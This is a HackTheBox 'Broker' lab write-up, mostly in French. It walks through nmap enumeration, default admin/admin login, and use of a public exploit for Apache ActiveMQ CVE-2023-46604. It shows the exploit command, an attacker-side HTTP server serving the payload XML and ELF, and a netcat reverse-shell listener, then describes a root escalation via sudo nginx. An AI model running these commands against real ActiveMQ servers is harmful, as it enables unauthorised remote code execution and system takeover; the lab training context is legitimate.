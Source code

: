 ```yaml
---
title: HTB | Broker
description: Broker is an easy difficulty Linux machine hosting a version of Apache ActiveMQ. Enumerating the version of Apache ActiveMQ shows that it is vulnerable to Unauthenticated Remote Code Execution, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a sudo misconfiguration allowing the activemq user to execute sudo /usr/sbin/nginx, which is similar to the recent Zimbra disclosure and is leveraged to gain root access.
slug: broker-htb
date: 2024-12-13 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Broker cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Broker</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.243</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap

```bash
nmap -sC -sV -An -p- 10.10.11.243
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
44151/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15                                                           
```

## Foothold

### Apache ActiveMQ Server (CVE-2023-46604)
On utilise le login admin/admin pour se connecter :
Sur la page principale, on remarque le numero de verion : Apache ActiveMQ 5.15.15

Après une petite recherche sur internet on trouve rapidement une CVE avec un repo github permettant de l'exploiter :
https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ?tab=readme-ov-file

```bash
./exploit -i 10.10.11.243 -u http://10.10.16.10:8001/poc-linux.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.16.10:8001/poc-linux.xml

[*] Sending packet: 000000781f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010025687474703a2f2f31302e31302e31362e31303a383030312f706f632d6c696e75782e786d6c

------------------------------------------------------------------------------

python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.243 - - [12/Dec/2024 00:19:59] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [12/Dec/2024 00:19:59] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [12/Dec/2024 00:19:59] "GET /test.elf HTTP/1.1" 200 -
10.10.11.243 - - [12/Dec/2024 00:20:15] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [12/Dec/2024 00:20:15] "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - [12/Dec/2024 00:20:15] "GET /test.elf HTTP/1.1" 200 -


------------------------------------------------------------------------------

$ nc -lnvp 8888
...
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat ~/user.tdxt
cat: /home/activemq/user.tdxt: No such file or directory
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat ~/user.txt
9e54.....9a86
activemq@broker:/opt/apache-activemq-5.15.15/bin$ 
```

## Privilege Escalation

### nginx as root
En faisant sudo -l, on observe que l'on peut executer la commande `nginx` en tant que root. Avec cette commande, on peut relancer un deuxieme serveur nginx sur un autre
port en lui passant un nouveau fichier de configuration. La méthode, consiste donc à modifier l'utilisateur dans le fichier de configuration pour que l'interaction
avec les fichiers se fassent en tant que root.

Si on se connecte en HTTP à l'ip du serveur avec le port défini dans la configuration nous allons pouvoir ouvrir tous les fichiers de l'ordinateur, et donc notamment
le fichier `root.txt` contenant le flag.
```bash
......................
```
